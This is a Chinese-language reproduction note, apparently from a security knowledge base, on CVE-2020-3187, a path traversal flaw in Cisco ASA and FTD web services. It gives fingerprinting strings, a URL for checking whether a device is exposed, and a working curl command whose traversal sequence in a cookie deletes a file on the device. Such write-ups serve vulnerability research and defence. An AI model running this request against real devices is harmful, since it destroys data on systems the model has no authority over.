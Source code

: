 # Cisco ASA设备任意文件删除漏洞 CVE-2020-3187

## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

<a-checkbox checked>Cisco ASA设备</a-checkbox></br>



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/cisco-1.png)



<a-checkbox checked>Cisco FTD设备</a-checkbox></br>



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/cisco-2.png)

## 网络测绘

<a-checkbox checked>/+CSCOE+/</a-checkbox></br>

<a-checkbox checked>Cisco-ASA</a-checkbox></br>

## 漏洞复现

<a-alert type="success" message="访问 http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 存在则可能出现此漏洞" description="" showIcon>
</a-alert>
<br/>

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/cisco-6.png)



例如我们删除一张图片  http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/cisco-7.png)



使用 curl 发送请求



```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/cisco-8.png)



成功删除图标